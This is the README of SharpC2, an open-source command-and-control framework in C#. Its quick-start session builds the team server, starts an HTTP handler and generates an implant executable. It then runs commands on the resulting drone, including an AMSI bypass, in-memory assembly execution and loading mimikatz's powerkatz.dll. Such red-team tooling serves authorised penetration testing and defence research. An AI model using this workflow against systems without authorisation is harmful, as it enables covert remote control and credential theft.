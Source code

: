 [![Documentation Status](https://readthedocs.org/projects/sharpc2/badge/?version=latest)](https://sharpc2.readthedocs.io/en/latest/?badge=latest)

# SharpC2

SharpC2 is a Command and Control Framework written in C#.

The solution consists of an ASP.NET Core Team Server, a .NET Standard Implant, and a .NET Client.

## Quick Start

The quickest way to have a play with the framework is clone the repo, then build and run the Debug versions.

### Start the Team Server

```
C:\SharpC2\TeamServer> dotnet build
TeamServer -> C:\SharpC2\TeamServer\bin\Debug\net5.0\TeamServer.dll

C:\SharpC2\TeamServer\bin\Debug\net5.0> dotnet TeamServer.dll Passw0rd!
info: Microsoft.Hosting.Lifetime[0]
      Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
      Content root path: C:\Users\Daniel\source\repos\SharpC2_dev\TeamServer\bin\Debug\net5.0
```

**Note**:  By default, it will start in `Production` mode and listen for connections on all interfaces.  To restrict to the localhost only, set the hosting environment to `Development` mode:  `set ASPNETCORE_ENVIRONMENT=Development`.

### Start the Client

```
C:\SharpC2\Client> dotnet build
Client -> C:\SharpC2\Client\bin\Debug\net5.0\SharpC2.dll

C:\Users\Daniel\source\repos\SharpC2_dev\Client\bin\Debug\net5.0>dotnet SharpC2.dll
  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_

(server)>
```

### Connect to the Team Server

```
(server)> localhost
(port)> 8443
(nick)> rasta
(pass)>

Server Certificate
------------------

[Subject]
  CN=localhost

[Issuer]
  CN=localhost

[Serial Number]
  67B4A5487F67745B

[Not Before]
  25/02/2021 21:01:43

[Not After]
  25/02/2022 21:01:43

[Thumbprint]
  B968C8D9C2B40F4AD7A46C92B0B700DEE46492FE

(accept? [y/N])> y
[drones] #
```

### Configure and Start the Default HTTP Handler

```
[drones] # handlers

[handlers] # list

Name          Running
----          -------
default-http  False

[handlers] # config default-http

[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        80         False
ConnectAddress  localhost  False
ConnectPort     80         False

[default-http] # set BindPort 8080
[default-http] # set ConnectPort 8080
[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        8080       False
ConnectAddress  localhost  False
ConnectPort     8080       False

[default-http] # start
[+] Handler "default-http" started.

[default-http] # back

[handlers] # list

Name          Running
----          -------
default-http  True
```

### Generate a Payload for the Handler

```
[drones] # payloads

[payloads] # show

Handler  Format  DllExport
-------  ------  ---------
         Exe     Execute

[payloads] # set Handler default-http

[payloads] # help generate

Generate payload
Usage: generate </output/path>

[payloads] # generate C:\Temp\drone.exe
[+] Saved 74240 bytes.
```

Execute the payload.

```
C:\Temp> drone.exe
```

### Interacting with a Drone

```
[drones] # list

Guid        Address      Hostname      Username  Process  PID    Arch  LastSeen
----        -------      --------      --------  -------  ---    ----  --------
655a3dea9d  172.20.64.1  Ghost-Canyon  Daniel    drone    32748  x64   0.29s

[drones] # interact 655a3dea9d

[655a3dea9d] # help

Name              Description
----              -----------
back              Back to previous screen
bypass-amsi       Bypass AMSI for post-ex tasks
cd                Change working directory
execute-assembly  Execute a .NET assembly in memory
exit              Exit this Drone
help              Get help
ls                List files and directories
overload          Map a native DLL into memory
pwd               Print current working directory
run               Run a command
shell             Run a command via cmd.exe
sleep             Set sleep interval and jitter

[655a3dea9d] # help overload
Map a native DLL into memory
Usage: overload [/path/to/dll] [export] <args>

[655a3dea9d] # overload C:\Tools\mimikatz\x64\powerkatz.dll powershell_reflective_mimikatz coffee
[+] Drone tasked: 668a2b4acb
[+] Drone checked in. Sent 1878149 bytes.
[+] Output received:

  .#####.   mimikatz 2.2.0 (x64) #19041 Mar  3 2021 14:35:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

[+] Task complete.
```


## Documentation

See more documentation on [Read the Docs](https://sharpc2.readthedocs.io/en/latest/index.html).